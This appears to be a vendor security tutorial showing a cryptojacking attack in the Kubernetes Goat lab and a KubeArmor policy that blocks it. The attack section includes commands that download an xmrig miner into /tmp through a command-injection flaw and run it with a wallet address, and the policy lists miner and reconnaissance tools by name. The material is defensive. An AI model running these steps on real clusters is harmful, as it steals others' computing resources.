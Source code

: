# Defend K8S Workloads from Cryptojacking Attacks

Cryptojacking, the unauthorized use of someone else’s computing resources for cryptocurrency mining, is a silent but rapidly growing menace. Cryptocurrency mining steals the resources of infected machines, significantly affecting their performance and increasing the wear and tear of hardware. The mining also leads to other costs, like increased power consumption or resource consumption on the cloud.

To showcase a cryptojacking attack, the Kubernetes Goat environment is used(<a href="https://github.com/madhuakula/kubernetes-goat?tab=readme-ov-file#-setting-up-kubernetes-goat", target=_blank>Kubernetes Goat Setup</a>). The Health Check deployment in Kubernetes Goat has a command injection vulnerability which allows executing commands inside the container by prefixing ```;```

## Exploiting vulnerability to deploy xmrig

To exploit the command injection vulnerability and get started with mining, start by checking the OS that the container is running on:

```sh
$ uname -a
```

For the health check deployment, the OS is ubuntu.

**Step 1**: Download the binary release of xmrig for linux-static from the <a href="https://github.com/xmrig/xmrig/releases", target="_blank">open source github page</a>. The attacker will use a version of the binary with the config file already populated with the required info.

```sh
$ wget https://github.com/xmrig/xmrig/releases/download/v6.21.2/xmrig-6.21.2-linux-static-x64.tar.gz -P /tmp
```

After executing the above, the binary is downloaded into the container which can be confirmed by using ```ls```

![alt](images/crypto-mining/goat-ls.png)

**Step 2**: Install the xmrig binary into the ```/tmp``` folder

```sh
$ tar xvzf /tmp/xmrig-6.21.2-linux-static-x64.tar.gz -C /tmp
```

On successful install, an output similar to below will be visible

![alt](images/crypto-mining/xmrig-installed.png)

**Step 3**: Try running xmrig with the below command

```sh
$ /tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
```

Now xmrig starts to mine and here, the load becomes too high that the container gets restarted

```sh
vagrant@demo:~/kubernetes-goat$ kubectl get pods -l app=health-check -w
NAME                                       READY   STATUS    RESTARTS        AGE
health-check-deployment-5777c5c54b-xfsjr   1/1     Running   2 (7m49s ago)   19h
health-check-deployment-5777c5c54b-xfsjr   0/1     OOMKilled   2 (10m ago)     19h
health-check-deployment-5777c5c54b-xfsjr   1/1     Running     3 (7s ago)      19h
```

## Protection Using AccuKnox

AccuKnox can help protect against cryptominers by blocking specific executables used for mining and thwarting the other generally used techniques for deploying cryptominers.

The following KubeArmor policy can be used for securing the health check deployment from any cryptominers including xmrig:

```sh
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: prevent-crypto-miners
spec:
  selector:
    matchLabels:
      app: health-check

  action: Block
  process:
    # do not allow execution of binaries from /tmp/ directory
    matchDirectories:
    - dir: /tmp/
      recursive: true

    matchPaths:
    # do not allow execution of xmrig (xmrig.com)
    - execname: xmrig

    # prevent execution of Dero miner
    - execname: dero
    - execname: dero-miner-linux-amd64
    - execname: dero-wallet-cli-linux-amd64
    - execname: derod-linux-amd64

    # do not allow execution of masscan/zgrab2/nmap used for recon
    - execname: zgrab2
    - execname: masscan
    - execname: nmap

    # do not allow package management tools execution
    - execname: apt
    - execname: apk

    # time sync is important for miners. typically ntpdate is used.
    - execname: ntpdate

  # Do not allow overwriting system binaries
  file:
    matchDirectories:
    - dir: /usr/local/bin/
      readOnly: true
      recursive: true
    - dir: /sbin/
      readOnly: true
      recursive: true
    - dir: /bin/
      readOnly: true
      recursive: true
    - dir: /usr/bin/
      readOnly: true
      recursive: true
    - dir: /var/local/bin/
      readOnly: true
      recursive: true
    - dir: /boot/
      readOnly: true
      recursive: true

  message: cryptominer detected and blocked
  severity: 10
  tags:
    - cryptominer
```

The above policy,

- Prevents execution of binaries from the ```/tmp/``` directory

- Prevents execution of any processes with an execname of ```xmrig```, ```dero```, ```dero-miner-linux-amd64```, ```dero-wallet-cli-linux-amd64```, ```derod-linux-amd64```, ```zgrab2```, ```masscan```, ```nmap```, ```apt```, ```apk``` and ```ntpdate``` in the system

- Prevents write to ```/usr/local/bin/```, ```/sbin/```, ```/bin/```, ```/usr/bin/```, ```/var/local/bin/```, ```/boot/``` which contain system binaries

To apply the policy in SaaS,

**Step 1**: To create the policy Navigate to Runtime Protection → Policies. Then select **Create Policy** option from the screen.

![alt](images/crypto-mining/create-policy.png)

**Step 2**: In the policy editor tool create/upload the above policy. Select the Cluster, namespace, **Save** and then select **Save to workspace** option.

![alt](images/crypto-mining/save-policy.png)

**Step 3**: Apply the policy by clicking on the three dots next to the saved policy and selecting **Apply Policy**.

![alt](images/crypto-mining/apply-policy.png)

**Step 4**: The policy is applied successfully. Now, try to execute xmrig again

```sh
$ /tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
```

Exit status 126 is shown as xmrig is not allowed to be executed

![alt](images/crypto-mining/xmrig-exit.png)

Alerts are generated for the execution attempt:

```sh
ClusterName: k3scluster
HostName: worker-node02
NamespaceName: default
PodName: health-check-deployment-5777c5c54b-xfsjr
Labels: app=health-check
ContainerName: health-check
ContainerID: cd273bd868238379e9c419e9fbe7b5aeef099d8786502745cf341cf6b2b17116
ContainerImage: docker.io/madhuakula/k8s-goat-health-check:latest@sha256:ab8f3dd527e0a180f42af358d88b22e4bbe8ca81f45f6e404780e665b63da97e
Type: MatchedPolicy
PolicyName: prevent-crypto-miners
Severity: 10
Message: cryptominer detected and blocked
Source: /bin/dash
Resource: /tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
Operation: Process
Action: Block
Data: syscall=SYS_EXECVE
Enforcer: AppArmor
Result: Permission denied
ATags: [cryptominer]
Cwd: /
HostPID: 21988
HostPPID: 21986
Owner: map[Name:health-check-deployment Namespace:default Ref:Deployment]
PID: 38
PPID: 36
ParentProcessName: /bin/dash
ProcessName: /tmp/xmrig-6.21.2/xmrig
Tags: cryptominer
UID: 0
```

The permission is denied for xmrig as a binary with that execname is not allowed to be executed. We have also set to prevent execution of binaries from the ```/tmp/``` directory to prevent any other cryptominers to be executed using the same methodology.

## Key Takeaways

- Most of the cryptominers deploy binaries in the ```/tmp/``` folder and execute from there - AccuKnox can prevent any executions from the ```/tmp/``` folder to protect against it.

- Time synchronization is critical for mining software and attackers use pre-installed tools such as ```ntpdate``` for date/time sync - AccuKnox can prevent the attacker’s binary from accessing them.

- Cryptominers use package management tools to install accessory tooling - AccuKnox can essentially disable the use of package managers.

- Common way to prevent any current and future crypto mining attacks would be to use KubeArmor Zero Trust policies which essentially limits any unauthorized access by network primitives, process-exec primitives, file-access primitives by any unknown binaries.